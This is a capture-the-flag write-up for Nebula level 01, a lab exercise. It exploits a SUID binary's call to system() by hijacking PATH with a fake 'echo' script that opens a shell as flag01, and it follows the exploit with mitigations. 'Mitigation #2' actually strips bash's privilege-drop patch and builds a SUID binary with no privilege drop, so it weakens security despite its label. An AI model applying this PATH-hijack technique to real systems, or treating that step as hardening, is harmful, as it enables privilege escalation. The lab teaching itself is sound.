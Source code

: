 # Level 01
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the `level01` account with the password `level01`. Files for this level can be found in `/home/flag01`.

## Source code
```c++
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

## Writeup
The problem in this code is use `eUID` and run `echo` command in simple relative path.
We can cange the `$PATH` variable to run a custom echo command, because `/home/flag01/flag01` binary has `SUID` setted.

Write a custom `echo` command inside our home directory `/home/level01`:

```bash
echo '/bin/sh' > /home/level01/echo
```

Make this script executable:

```bash
chmod +x /home/level01/echo
```

Now if we change `$PATH` variabile by adding `/home/level01` at the start and execute the `/home/flag01/flag01` binary, we get a shell with flag01 account:

```bash
env PATH=/home/level01:$PATH /home/flag01/flag01
```

We can verify it, with `id` command:

```bash
level01@nebula:~$ env PATH=/home/level01:$PATH /home/flag01/flag01 
sh-4.2$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
```

Now we can run `getflag` command:

```bash
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## Mitigation #1a

Unset the **SUID** bit of the binary:

```bash
chmod u-s /home/flag01/flag01
```

With this result:

```bash
root@nebula:/home/flag01# ll flag01
-rwxr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01*
```

## Mitigation #1b

If we can't unset the **SUID** bit, we can do a privilege drop before calling the **system()** function:

```c
uid = getuid();
setresuid(-1, uid, -1);

system("/usr/bin/env echo and now what?");
```

The entire code will be:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  uid_t uid;

  uid = getuid();
  setresuid(-1, uid, -1);

  system("/usr/bin/env echo and now what?");
}
```

Save it as **flag01-drop.c** and compile it:

```bash
gcc -o flag01-drop flag01-drop.c
```

Set correct privileges to the binary:

```bash
chown flag01:level01 /home/flag01/flag01-drop
chmod 4750 /home/flag01/flag01-drop
```

With this result:

```bash
root@nebula:/home/flag01# ll flag01-drop
-rwsr-x--- 1 flag01 level01 7246 2023-06-22 01:31 flag01-drop*
```

## Mitigation #2

Modify the repository list in **/etc/apt/sources.list**, by replacing http://us.achive.ubuntu.com/ubuntu/ to http://old-releases.ubuntu.com/ubuntu:

```bash
sed "s/\/\/us\.archive/\/\/old-releases/" /etc/apt/sources.list -i
```

Now we can update the repository:

```bash
apt-get update
```

We can download the source code of **bash**:

```bash
apt-get source bash
```

Build the dipendences:

```bash
apt-get build-dep bash
```

Remove the patch:

```bash
rm bash-4.2/debian/patches/privmode.dpatch
```

Remove all patch's references in the **bash-4.2/debian/rules** file:

```bash
sed "/privmode /d" bash-4.2/debian/rules -i
```

Compile it (without execute unit test):

```bash
cd bash-4.2
DEB_BUILD_OPTIONS=nocheck dpkg-buildpackage -us -uc -b
```

Install binaries:

```bash
cd ..
dpkg -i bash_4.2*deb
```

Create the script without privilege modification:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  system("/usr/bin/env echo and now what?");
}
```

Save the script as **flag01-noperm.c** and compile it:

```bash
gcc -o flag01-noperm flag01-noperm.c
```

Set correct privileges to the binary:

```bash
chown flag01:level01 /home/flag01/flag01-noperm
chmod 4750 /home/flag01/flag01-noperm
```

With this result:

```bash
root@nebula:/home/flag01# ll flag01-noperm
-rwsr-x--- 1 flag01 level01 7169 2023-06-22 03:30 flag01-noperm*
```

## Mitigation #3

This binary use the environment variable **PATH** that is not checked before execute the system call **system()**.

We can **sanitize** the environment variable **PATH** with:

- **Filter**: remove the all custom directory from the variable by setting the path with all standard directory of the UNIX system.
- **Validation**: No one, because we setting the correct path and not the attacker.

We can use the function **putenv()** to set specific value to any environment variable:

```c
putenv("PATH=/bin:/sbin:/usr/bin:/usr/sbin");
```

The code will be:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  putenv("PATH=/bin:/sbin:/usr/bin:/usr/sbin");
  system("/usr/bin/env echo and now what?");
}
```

Save it as **flag01-sanitize.c** and compile it:

```bash
gcc -o /home/flag01/flag01-sanitize /home/flag01/flag01-sanitize.c
```

Set correct owner and permissions:

```bash
chown flag01:level01 /home/flag01/flag01-sanitize
chmod 4750 /home/flag01/flag01-sanitize
```

We can try again the exploit and this is the result:

```bash
level01@nebula:/home/flag01$ env PATH=/home/level01:$PATH /home/flag01/flag01-sanitize
and now what?
```